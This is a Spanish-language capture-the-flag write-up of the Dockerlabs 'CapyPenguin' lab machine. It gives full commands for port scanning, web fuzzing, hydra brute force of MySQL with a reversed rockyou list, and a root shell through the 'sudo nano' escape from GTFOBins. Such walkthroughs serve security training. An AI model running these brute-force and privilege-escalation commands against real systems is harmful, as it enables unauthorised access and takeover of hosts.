

# Writeup de la Máquina CapyPenguin de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```


Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. Con los puertos copiados les realizo un escaneo más concreto para determinar el servicio y la versión. El resultado del escaneo lo guardo en el archivo targeted. La máquina víctima tiene abiertos los puertos 22,80,3306.

```bash
extractPorts allPorts
```
```bash
sudo nmap -p22,80,3306 -sCV 172.17.0.2 -oN targeted
```


Al ver que tiene el puerto 80 decido mirar las tecnologías utilizadas en la web con whatweb.

```bash
whatweb http://172.17.0.2
```


Dado a que me saca pocas tecnologías decido abrir la página en el navegador.


Viendo que la página no muestra nada de información relevante decido mirar el código fuente. En este encuentro una pista, esta dice que un usuario ha cambiado su contraseña y ya no es de las del principio del rockyou.txt.


Viendo que no encuentro nada más decido hacer web fuzzing con gobuster, pero no encuentra ningún subdirectorio o archivo.

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2 -x html,php,txt,js
```


Viendo que no encuentro nada más decido probar hacer fuerza bruta con el usuario que se muestra en la página web. Como en la pista pone que la contraseña ya no se encuentra al principio del rockyou me hace pensar que puede estar al final. Para tener el diccionario invertido utilizo el comando tac.

```bash
tac /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt > ReverseRocku.txt
```


Primero pruebo con el servicio ssh y no me reporta ninguna coincidencia, al ver esto paso a probar con MySQL y en este si hay suerte. Para hacer la fuerza bruta utilizo la herramienta hydra.

```bash
hydra -l capybarauser -P ./ReverseRocku.txt mysql://172.17.0.2
```


Una vez con la contraseña entro a MySQL y miro que base de datos hay.

```bash
mysql -h 172.17.0.2 -u capybarauser -p
```


Veo que esta la base de datos "pinguinasio_db", esta base de datos solo tiene la tabla users, que esta contiene un usuario y contraseña en texto claro.


Una vez tengo las credenciales pruebo a conectar por ssh y obtengo acceso al sistema.

```bash
ssh mario@172.17.0.2
```


Para escalar privilegios ejecuto el siguiente comando para listar comandos que pueda ejecutar como sudo.

```bash
sudo -l
```

Este me reporta que puedo utilizar el comando nano, por lo tanto miro en gtfobins como poder escalar privilegios ejecutandolo como superusuario.


Sabiendo ya los pasos, los pongo en práctica.

```bash
sudo nano
^R ^X
reset; sh 1>&0 2>&0
```


Una vez ejecutado consigo escalar privilegios y convertirme en root.


